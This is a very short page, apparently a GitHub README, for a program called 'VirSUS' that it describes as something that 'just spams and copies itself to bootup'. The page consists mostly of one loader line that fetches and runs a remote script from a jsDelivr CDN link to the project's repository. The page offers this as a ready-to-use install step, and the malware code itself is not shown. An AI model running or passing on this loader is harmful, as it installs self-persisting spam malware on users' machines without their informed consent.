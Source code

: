 # VirSUS
it just spams and copies itself to bootup.

$loader.script("https://cdn.jsdelivr.net/gh/Busybody64/VirSUS/VirSUS.js");

